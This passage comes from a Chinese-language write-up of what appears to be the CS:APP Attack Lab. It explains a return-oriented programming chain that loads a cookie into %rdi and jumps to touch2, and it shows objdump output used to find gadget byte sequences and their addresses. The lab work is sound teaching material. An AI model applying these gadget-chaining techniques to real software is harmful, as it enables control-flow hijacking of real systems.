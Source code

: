 ![](./assets/image-20220305153502546.png)

逻辑如下：

- `getbuf`执行`ret`，从栈中弹出返回地址，跳转到我们的`gardget01`
- `gadget01`执行，将`cookie`弹出，赋值给`%rax`，然后执行`ret`，继续弹出返回地址，跳转到`gardget2`
- `gardget2`执行，将`cookie`值成功赋值给参数寄存器`%rdi`，然后执行`ret`，继续弹出返回地址，跳转到`touch2`

### Solution

首要问题是找到我们需要的`gadget`

先用如下指令得到`target`的汇编代码及字节级表示

```assembly
objdump -d rtarget > rtarget.s
```

查表知，`pop %rax`用`58`表示，于是查找`58`

```assembly
00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq                   retq
```

得到指令地址为`0x4019ab`

`movq %rax, %rdi`表示为`48 89 c7`，刚好能找到！其中 90 表示“空”，可以忽略
